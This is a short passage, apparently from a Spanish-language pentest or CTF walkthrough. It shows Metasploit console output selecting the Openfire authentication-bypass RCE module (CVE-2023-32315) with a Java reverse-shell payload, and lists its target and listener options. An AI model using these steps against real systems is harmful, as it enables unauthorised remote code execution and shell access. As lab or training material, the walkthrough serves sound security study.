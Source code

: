 Elegimos la opción 4, `use 4`, y vemos las opciones del plugin con `options`:

```bash
msf6 > use 4
[*] Using configured payload java/shell/reverse_tcp
msf6 exploit(multi/http/openfire_auth_bypass_r
ce_cve_2023_32315) > options

Module options (exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315):

   Name          Current Setti  Required  Description
                 ng
   ----          -------------  --------  -----------
   ADMINNAME                    no        Openfire admin user
                                           name, (default: ra
                                          ndom)
   PLUGINAUTHOR                 no        Openfire plugin aut
                                          hor, (default: rand
                                          om)
   PLUGINDESC                   no        Openfire plugin des
                                          cription, (default:
                                           random)
   PLUGINNAME                   no        Openfire plugin bas
                                          e name, (default: r
                                          andom)
   Proxies                      no        A proxy chain of fo
                                          rmat type:host:port
                                          [,type:host:port][.
                                          ..]
   RHOSTS                       yes       The target host(s),
                                           see https://docs.m
                                          etasploit.com/docs/
                                          using-metasploit/ba
                                          sics/using-metasplo
                                          it.html
   RPORT         9090           yes       The target port (TC
                                          P)
   SSL           false          no        Negotiate SSL/TLS f
                                          or outgoing connect
                                          ions
   TARGETURI     /              yes       The base path to th
                                          e web application
   VHOST                        no        HTTP server virtual
                                           host

Payload options (java/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an i
                                     nterface may be specifie
                                     d)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Java Universal

View the full module info with the info, or info -d command.

```
